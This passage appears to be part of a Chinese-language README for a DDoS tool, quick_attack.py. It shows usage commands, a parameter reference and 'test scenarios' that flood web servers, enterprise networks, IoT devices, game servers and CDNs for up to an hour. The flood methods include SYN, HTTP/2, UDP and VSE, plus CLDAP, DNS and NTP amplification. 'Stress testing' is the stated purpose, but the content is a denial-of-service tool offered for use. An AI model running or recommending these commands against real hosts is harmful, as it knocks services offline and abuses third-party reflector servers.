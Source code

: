 #### 📊 高级监控

```bash
# 实时监控模式
python3 quick_attack.py 192.168.1.100 -m multi --monitor

# 导出测试报告
python3 quick_attack.py 192.168.1.100 -m dns -t 600 --report report.json

# 性能分析
python3 -c "
import json
with open('report.json') as f:
    data = json.load(f)
    print(f'平均PPS: {data[\"avg_pps\"]}')
    print(f'峰值带宽: {data[\"peak_bandwidth\"]}')
"
```

#### 🎯 专业测试场景

```bash
# Web服务器压力测试
python3 quick_attack.py web-server.com -p 443 -m "http2,http,syn" -c 500 -t 1800

# 企业网络评估
python3 quick_attack.py enterprise.local -m "cldap,dns,ntp" -c 200 -t 3600

# IoT设备安全测试
python3 quick_attack.py iot-device.local -m "coap,udp,syn" -c 100 -t 900

# 游戏服务器测试
python3 quick_attack.py game-server.com -p 27015 -m "udp,vse" -c 300 -t 1200

# CDN效果评估
for region in us eu asia; do
    python3 quick_attack.py cdn-$region.example.com -m multi -t 600
done
```

---

## 🎛️ 使用指南

### 命令参数

```bash
python3 quick_attack.py <目标IP> [选项]

参数:
  -p, --port      目标端口 (默认: 80)
  -t, --time      攻击时间/秒 (默认: 300)
  -m, --method    攻击方法 (默认: multi)
  -c, --threads   并发线程数 (默认: 自动)
  -h, --help      显示帮助信息
  --list          显示所有攻击方法
```
